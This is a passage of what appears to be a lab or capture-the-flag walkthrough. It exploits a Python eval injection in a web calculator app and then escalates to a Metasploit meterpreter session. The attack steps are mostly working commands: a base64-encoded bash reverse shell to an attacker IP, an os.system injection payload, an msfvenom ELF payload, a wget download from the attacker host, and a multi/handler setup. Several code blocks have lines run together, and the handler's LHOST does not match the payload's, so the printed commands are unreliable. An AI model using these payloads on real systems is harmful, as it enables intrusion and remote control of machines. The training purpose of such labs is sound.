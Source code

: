 The target machine `online-calc.com` is on the same network as that of `eth1`. So we well use the IP of that interface in the exploit: `ip a`

Since the `/` characters in the user payload would be converted to `* 1.0 /` by the `evaluate` function, we will base64-encode the payload.

We use a Reverse Shell of [Pentestmonkey](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)

`echo 'bash -c "bash -i >& /dev/tcp/192.73.152.2/4444 0>&1"' | base64`

```
YmFzaCAtYyAiYmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuNzMuMTUyLjIvNDQ0NCAwPiYxIgo=
```

We start a netcat listener `nc -lvp 4444` Copy the following payload `__import__("os").system("echo YmFzaCAtYyAiYmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuNzMuMTUyLjIvNDQ0NCAwPiYxIgo= | base64 -d | bash")` to the calc on port 5000.

The above payload decodes the base64 encoded payload we created in the previous step and passes it to `bash` for executing the reverse shell payload. Since our payload will be executed by the `eval` function in Python, that's why we are importing Python's `os` module to execute the desired commands. Now press the `=` button to supply the payload to the backend.

We now find a flag file: `find / -iname *flag* 2>/dev/null`

Even though we have compromised the target machine, we are still limited in the things we can do with the normal shell session. It would be quite good to gain a meterpreter shell session instead to carry out further exploitation.

### Meterpreter session[​](broken-reference) <a href="#meterpreter-session" id="meterpreter-session"></a>

We generate a payload. `msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=192.73.152.2 LPORT=5555 -f elf > payload.bin`

We will start a Python-based file server on the Kali instance and serve the generated payload binary: `python3 -m http.server 80` Now we can download the payload binary on the compromised target machine:

```
wget http://192.73.152.2/payload.binfile payload.binchmod +x payload.bin
```

Set up a multi handler on the kali instance:

```
msfconsole -quse exploit/multi/handlerset PAYLOAD linux/x64/meterpreter/reverse_tcpset LHOST 192.196.85.2set LPORT 5555run
```

And now execute the `./payload.bin` on the remote host.

We check the interfaces of the remote machine: `ifconfig`

```
Interface 22396============Name         : eth0Hardware MAC : 02:42:c0:49:98:03MTU          : 1500Flags        : UP,BROADCAST,MULTICASTIPv4 Address : 192.73.152.3IPv4 Netmask : 255.255.255.0Interface 22398============Name         : eth1Hardware MAC : 02:42:c0:8d:4d:02MTU          : 1500Flags        : UP,BROADCAST,MULTICASTIPv4 Address : 192.141.77.2IPv4 Netmask : 255.255.255.0
```
